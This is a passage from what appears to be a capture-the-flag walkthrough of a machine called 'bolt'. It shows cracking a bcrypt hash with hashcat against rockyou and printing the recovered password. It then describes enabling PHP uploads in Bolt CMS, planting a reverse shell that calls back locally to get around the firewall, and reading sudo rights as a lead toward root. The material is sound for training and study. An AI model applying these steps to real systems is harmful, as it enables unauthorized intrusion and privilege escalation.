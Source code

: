 `hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt`
```
$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK:strawberry
```

Use these credentials for admin in the bolt cms.

![](https://i.imgur.com/fkWhQSd.png)

Viola and we have access to file upload. Manage the permissions in the config file to allow for php file extentions.

![](https://i.imgur.com/rA58Kwp.png)

Copy the link to find out where it is hosted.

![](https://i.imgur.com/4s7zI5w.png)


> Note, I moved the revshell to the webroot since files was constantly being wiped
{: .prompt-tip }


![](https://i.imgur.com/cHvjfEw.png)

Due to the firewall, we cannot create a connection to our host from the victim.

`cat /usr/share/ufw/iptables/before.rules`

```
# all other non-local packets are dropped
-A ufw-not-local -m limit --limit 3/min --limit-burst 10 -j ufw-logging-deny
-A ufw-not-local -j DROP
```

![](https://i.imgur.com/w1cIaCS.png)

What I can do instead is to get a reverse shell calling back to the machine itself. It's dropping remote packets but not local packets so it should work.

## Root
---
```
www-data@bolt:~/html$ whoami;id
whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We got the connection we needed.

`sudo -l`
```
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```
